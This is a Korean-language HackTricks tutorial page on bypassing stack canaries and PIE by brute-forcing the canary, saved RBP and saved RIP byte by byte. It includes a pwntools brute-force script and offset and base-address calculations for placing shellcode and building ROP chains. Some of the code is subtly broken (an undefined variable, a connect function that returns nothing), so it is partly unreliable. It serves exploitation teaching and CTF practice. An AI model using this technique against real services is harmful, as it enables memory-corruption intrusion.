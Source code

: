 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**만약 당신이 canary와 PIE(위치 독립 실행 파일)로 보호된 바이너리를 다루고 있다면, 이를 우회할 방법을 찾아야 할 것입니다.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**는 바이너리가 canary로 보호되고 있는지 찾지 못할 수 있습니다. 이는 정적으로 컴파일되었고 함수를 식별할 수 없기 때문입니다.\
하지만, 함수 호출의 시작 부분에서 스택에 값이 저장되고 이 값이 종료 전에 확인되는 것을 발견하면 수동으로 이를 알 수 있습니다.
{% endhint %}

## Brute-Force Addresses

**PIE를 우회하기 위해서는** **주소를 유출해야** 합니다. 바이너리가 주소를 유출하지 않는 경우, 가장 좋은 방법은 **취약한 함수에서 스택에 저장된 RBP와 RIP를 무작위로 추측하는 것입니다.**\
예를 들어, 바이너리가 **canary**와 **PIE**로 보호되고 있다면, 먼저 canary를 무작위로 추측한 다음, **다음** 8 바이트(x64)는 저장된 **RBP**가 되고, **다음** 8 바이트는 저장된 **RIP**가 됩니다.

{% hint style="success" %}
스택 내의 반환 주소는 주 바이너리 코드에 속하는 것으로 가정되며, 취약점이 바이너리 코드에 위치한 경우 일반적으로 그렇습니다.
{% endhint %}

바이너리에서 RBP와 RIP를 무작위로 추측하기 위해서는, 프로그램이 무언가를 출력하거나 단순히 충돌하지 않으면 유효한 추측 바이트가 맞다는 것을 알 수 있습니다. **canary를 무작위로 추측하기 위해 제공된 것과 동일한 함수**를 사용하여 RBP와 RIP를 무작위로 추측할 수 있습니다:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
PIE를 무너뜨리기 위해 필요한 마지막 것은 **유출된** 주소에서 **유용한 주소를 계산하는 것**입니다: **RBP**와 **RIP**입니다.

**RBP**에서 스택에 **쉘을 어디에 쓰고 있는지** 계산할 수 있습니다. 이는 스택 내에서 문자열 _"/bin/sh\x00"_을 어디에 쓸 것인지 아는 데 매우 유용할 수 있습니다. 유출된 RBP와 쉘코드 간의 거리를 계산하려면 **RBP를 유출한 후에 브레이크포인트를 설정하고** **쉘코드가 어디에 위치하는지** 확인하면 됩니다. 그런 다음, 쉘코드와 RBP 간의 거리를 계산할 수 있습니다:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**에서 **PIE 바이너리의 기본 주소**를 계산할 수 있으며, 이는 **유효한 ROP 체인**을 생성하는 데 필요합니다.\
기본 주소를 계산하려면 `objdump -d vunbinary`를 실행하고 최신 주소를 분해하여 확인하세요:

![](<../../../.gitbook/assets/image (479).png>)

이 예제에서는 모든 코드를 찾는 데 **1바이트 반만 필요**하다는 것을 볼 수 있습니다. 따라서 이 상황에서 기본 주소는 **유출된 RIP에 "000"으로 끝나는** 값이 됩니다. 예를 들어, `0x562002970ecf`가 유출되었다면 기본 주소는 `0x562002970000`입니다.
```python
elf.address = RIP - (RIP & 0xfff)
```
## 개선 사항

[**이 게시물의 일부 관찰에 따르면**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), RBP 및 RIP 값을 누출할 때, 서버가 올바르지 않은 일부 값으로는 충돌하지 않을 수 있으며 BF 스크립트는 올바른 값을 얻었다고 생각할 수 있습니다. 이는 **일부 주소는 정확한 값이 아니더라도 서버를 중단시키지 않을 수 있기 때문입니다**.

해당 블로그 게시물에 따르면 서버에 대한 요청 사이에 짧은 지연을 추가하는 것이 권장됩니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
